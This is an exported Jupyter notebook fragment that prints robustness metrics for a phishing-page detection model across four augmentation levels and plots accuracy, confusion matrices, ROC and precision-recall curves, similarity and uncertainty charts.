








All augmentation-ablation figures saved.
Augmentation  Accuracy  Precision  Recall     F1  ROC_AUC  AvgProba  AvgSimilarity  AvgVisConf
    Original    0.9792     0.9921  0.9654 0.9786   0.9783    0.4693         0.9988      0.9801
        Easy    0.9755     0.9843  0.9654 0.9748   0.9722    0.4721         0.9982      0.9789
      Medium    0.9792     0.9921  0.9654 0.9786   0.9765    0.4686         0.9967      0.9785
        Hard    0.9113     0.8685  0.9654 0.9144   0.9125    0.5329         0.9741      0.9740


In [23]:

# ═══════════════════════════════════════════════════════════════
# PLOTS
# ═══════════════════════════════════════════════════════════════

# ── 1. F1 / Precision / Recall / Accuracy vs augmentation level ─
plt.figure(figsize=(9,4))
for col, marker in zip(["Accuracy","Precision","Recall","F1","ROC_AUC"], "osv^d"):
    plt.plot(metrics_df["Augmentation"], metrics_df[col], marker=marker, label=col, lw=2)
plt.ylim(0,1.02)
plt.ylabel("Score")
plt.title("Pipeline Robustness Across Augmentation Levels")
plt.legend()
plt.grid(alpha=0.3)
plt.tight_layout()
plt.savefig("metrics_vs_augmentation.png", dpi=150)
plt.show()

# ── 2. Confusion matrices per level (grid) ───────────────────────
fig, axes = plt.subplots(2, 3, figsize=(15,10))
for level, ax in zip(range(4), axes.flat):
    sub = df_aug[df_aug['level'] == level]
    cm = confusion_matrix(sub['true_label'], sub['pred_label'])
    ConfusionMatrixDisplay(cm, display_labels=["Legit","Phishing"]).plot(
        ax=ax, cmap="Blues", colorbar=False, values_format="d")
    ax.set_title(LEVEL_NAMES[level])
plt.suptitle("Confusion Matrices Across Augmentation Levels", y=1.02, fontsize=14)
plt.tight_layout()
plt.savefig("cm_grid_augmentation.png", dpi=150, bbox_inches="tight")
plt.show()

# ── 3. ROC curves overlay ────────────────────────────────────────
plt.figure(figsize=(7,7))
for level in range(4):
    sub = df_aug[df_aug['level'] == level]
    fpr, tpr, _ = roc_curve(sub['true_label'], sub['final_proba'])
    auc = roc_auc_score(sub['true_label'], sub['final_proba'])
    plt.plot(fpr, tpr, label=f"{LEVEL_NAMES[level]} (AUC={auc:.3f})")
plt.plot([0,1],[0,1],'k--', lw=1)
plt.xlabel("False Positive Rate")
plt.ylabel("True Positive Rate")
plt.title("ROC Curves Across Augmentation Levels")
plt.legend()
plt.tight_layout()
plt.savefig("roc_overlay_augmentation.png", dpi=150)
plt.show()

# ── 4. Precision-Recall curves overlay ───────────────────────────
plt.figure(figsize=(7,7))
for level in range(4):
    sub = df_aug[df_aug['level'] == level]
    prec, rec, _ = precision_recall_curve(sub['true_label'], sub['final_proba'])
    ap = average_precision_score(sub['true_label'], sub['final_proba'])
    plt.plot(rec, prec, label=f"{LEVEL_NAMES[level]} (AP={ap:.3f})")
plt.xlabel("Recall")
plt.ylabel("Precision")
plt.title("Precision-Recall Curves Across Augmentation Levels")
plt.legend()
plt.tight_layout()
plt.savefig("pr_overlay_augmentation.png", dpi=150)
plt.show()

# ── 5. Similarity score degradation ──────────────────────────────
plt.figure(figsize=(9,4))
sns.boxplot(data=df_aug, x="level_name", y="vis_similarity", hue="split",
            order=[LEVEL_NAMES[i] for i in range(4)])
plt.axhline(SIM_THRESHOLD, color="red", linestyle="--", label="SIM_THRESHOLD")
plt.title("ViS Similarity Degradation Under Augmentation")
plt.ylabel("Cosine Similarity")
plt.xlabel("Augmentation Level")
plt.legend()
plt.tight_layout()
plt.savefig("similarity_degradation.png", dpi=150)
plt.show()

# ── 6. Verdict breakdown per level ───────────────────────────────
fig, axes = plt.subplots(1, 4, figsize=(22,4), sharey=True)
for level, ax in zip(range(4), axes):
    sub = df_aug[df_aug['level'] == level]
    sns.countplot(data=sub, x="vis_verdict", hue="split",
                  order=["LEGITIMATE","PHISHING","UNKNOWN"], ax=ax)
    ax.set_title(LEVEL_NAMES[level])
    ax.set_xlabel("")
    if level > 0:
        ax.legend_.remove()
plt.suptitle("ViS Verdict Breakdown Across Augmentation Levels", y=1.05)
plt.tight_layout()
plt.savefig("verdict_breakdown_augmentation.png", dpi=150, bbox_inches="tight")
plt.show()

# ── 7. MC uncertainty (std) growth ───────────────────────────────
plt.figure(figsize=(9,4))
sns.lineplot(data=df_aug, x="level_name", y="mc_std" if "mc_std" in df_aug.columns else "vis_conf",
             hue="split", marker="o", err_style="bars")
plt.title("Model Uncertainty Across Augmentation Levels")
plt.xlabel("Augmentation Level")
plt.tight_layout()
plt.savefig("uncertainty_vs_augmentation.png", dpi=150)
plt.show()

print("\nAll augmentation-ablation figures saved.")
print(metrics_df.round(4).to_string(index=False))
